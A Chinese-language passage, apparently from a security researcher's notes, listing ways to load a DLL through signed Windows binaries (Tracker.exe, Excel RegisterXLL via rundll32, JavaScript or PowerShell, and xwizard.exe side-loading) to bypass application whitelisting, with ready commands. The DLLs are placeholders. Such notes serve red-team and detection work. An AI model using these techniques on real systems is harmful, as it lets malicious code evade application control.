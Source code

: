 参考：

[《Study Notes Weekly No.3(Use odbcconf to load dll & Get-Exports & ETW USB Keylogger)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.3(Use-odbcconf-to-load-dll-&-Get-Exports-&-ETW-USB-Keylogger)/)

#### 方法4：Tracker

```
Tracker.exe /d test.dll /c svchost.exe
```

tracker.exe包含微软数字签名，可绕过应用程序白名单的限制

参考：

[《Study Notes Weekly No.4(Use tracker to load dll & Use csi to bypass UMCI & Execute C# from XSLT file)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.4(Use-tracker-to-load-dll-&-Use-csi-to-bypass-UMCI-&-Execute-C-from-XSLT-file)/)

#### 方法5：Excel.Application object's RegisterXLL() method

前提：已安装Microsoft Office软件

1.rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";x=new%20ActiveXObject('Excel.Application');x.RegisterXLL('C:\\test\\messagebox.dll');this.close();
```

2.js

```
var excel = new ActiveXObject("Excel.Application");
excel.RegisterXLL("C:\\test\\messagebox.dll");
```

3.powershell

```
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL("C:\test\messagebox.dll")
```

参考：

[《Use Excel.Application object's RegisterXLL() method to load dll》](https://3gstudent.github.io/3gstudent.github.io/Use-Excel.Application-object's-RegisterXLL()-method-to-load-dll/)

#### 方法6：xwizard.exe

复制%windir%\system32\下的xwizard.exe至新目录C:\x

将msg.dll重命名为xwizards.dll，保存在C:\x

命令行执行：

```
xwizard processXMLFile 1.txt
```
